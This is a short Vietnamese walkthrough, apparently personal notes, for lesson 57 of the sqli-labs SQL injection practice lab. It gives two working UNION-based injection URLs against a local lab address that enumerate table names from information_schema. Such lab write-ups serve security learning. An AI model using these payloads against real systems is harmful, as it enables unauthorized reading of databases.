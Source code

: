 # Những việc làm được với lesson-57
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-57

![](../images/lesson57/screen_1.png)

- Lần 1: 
```
192.168.80.225/sqli-labs/Less-57/?id=0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson57/screen.png)

- Lần 2
```
192.168.80.225/sqli-labs/Less-57/?id=0" union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson57/screen_2.png)

Tương tự ta làm như bài 54 nhé ^^

